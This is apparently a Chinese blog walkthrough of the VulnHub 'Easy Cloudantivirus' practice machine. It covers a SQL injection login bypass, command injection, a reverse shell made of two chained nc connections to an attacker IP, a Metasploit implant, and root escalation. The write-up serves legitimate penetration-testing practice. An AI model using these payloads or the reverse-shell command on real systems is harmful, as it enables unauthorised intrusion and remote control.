 ```yaml
---
title: VulnHub靶场 Easy Cloudantivirus
description: VulnHub靶场 Easy Cloudantivirus WP
pubDate: 10 19 2024
image: https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-8.png?imageMogr2/format/avif
categories:
  - 网络安全
tags:
  - 靶场
  - VulnHub靶场
  - 渗透测试
---
```


进行二层发现

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-1.png?imageMogr2/format/avif)

目标锁定 `192.168.135.205`，对其进行端口扫描，得到如下结果

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-2.png?imageMogr2/format/avif)

在目标 IP 下的 8080 端口，有一个 Python 的 WEB 服务，访问页面得到如下结果

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-3.png?imageMogr2/format/avif)

要求填写邀请码进行使用。进行 FUZZ 测试，在测试 `"` 的时候，出现的 sqlite3 报错

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-4.png?imageMogr2/format/avif)

直接把代码爆出来了。

```python
def login():
    password = request.form['password']
    if len(c.execute('select * from code where password="' + password + '"').fetchall()) > 0:
        session['logged_in'] = True
		return 'Redirecting to /scan. <meta http-equiv="refresh" content="0; url=/scan" />'
    else:
        return "WRONG INFORMATION"
```

看一下 sql 语句

```sql
select * from code where password="' + password + '"
```

简单构建一下

```sql
select * from code where password="' + " or 1=1# + '"
```

即输入 `" or 1=1#`，进行尝试，结果如下

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-5.png?imageMogr2/format/avif)

额……换个 `--` 注释试试

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-6.png?imageMogr2/format/avif)

成功，返回了一个 `ls -l` 的命令结果。说明后端执行了命令，试试管道符

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-7.png?imageMogr2/format/avif)

成功执行命令，我们借此可以反弹 shell，发现目标靶机自带 nc，尝试连接

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-8.png?imageMogr2/format/avif)

失败了，可能是版本不对……，想到一个法子

```shell
nc 192.168.135.192 9999 | /bin/bash | nc 192.168.135.192 8888
```

第一个的结果传递给 `/bin/bash`，然后再传递给第二个连接，这样不就另类的实现了 shell 嘛

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-9.png?imageMogr2/format/avif)

成功。不过这样有点麻烦，直接传一个 MSF 马进去

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-10.png?imageMogr2/format/avif)

成功喽。有一个数据库文件，下载下来，啥也没有。

再进行信息收集的时候，发现在 `/home/scanner` 下，有一个可执行的，有 sudo 权限的，属主为 root 用户的 c 源文件

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-11.png?imageMogr2/format/avif)

查看一下源码内容

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-12.png?imageMogr2/format/avif)

这是一个更新脚本，要求传递两个参数，拿 nc 简单试试

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-14.png?imageMogr2/format/avif)

查看反弹结果

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-13.png?imageMogr2/format/avif)

成功得到 root 权限，然后再传 MSF 马，得到 root 权限的 MSF 后门

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-15.png?imageMogr2/format/avif)

成功拿到 root 权限
